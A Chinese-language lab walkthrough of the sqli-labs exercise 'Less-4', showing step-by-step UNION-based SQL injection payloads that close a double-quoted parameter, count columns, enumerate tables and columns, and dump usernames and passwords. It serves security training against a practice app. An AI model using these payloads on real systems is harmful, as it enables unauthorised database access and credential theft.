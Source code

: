 # Less-4 Error based - Double quotes - String

根据题意输入双引号，报错

?id=1"

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602837942760-5db6e761-7c1f-4ae4-ac0c-1e8639a632d7.png)

根据报错信息，调整语句，正常显示

?id=1") and 1=1 --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602838116511-731a32c5-d200-4d4a-aa3d-3d669368ab9b.png)

利用order by猜测字段数，从1开始，4报错，字段数为3

?id=1") order by 4 --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602838248470-4e583b48-35fd-4a85-a314-fa6eb26067d7.png)

利用union联合查询，查看回显位置，记得前面的id改为一个查询不到的

?id=-1") union select 1,2,3 --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602838336105-18c2c9b8-02bf-4be8-9f26-ced7244df375.png)

查表名

?id=-1") union  select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602838466081-bacc61f9-9269-45b8-a62b-c8c07ed97544.png)

查字段名

?id=-1") union  select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database() --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602838529133-86e0d0dd-9a0e-4d13-b25c-60e6f7140abe.png)

根据字段名和表名获取数据

?id=-1") union select 1,2,group_concat(username," ",password) from users --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602838625919-35a774eb-d482-4cd7-9e9b-2c5531c0d85d.png)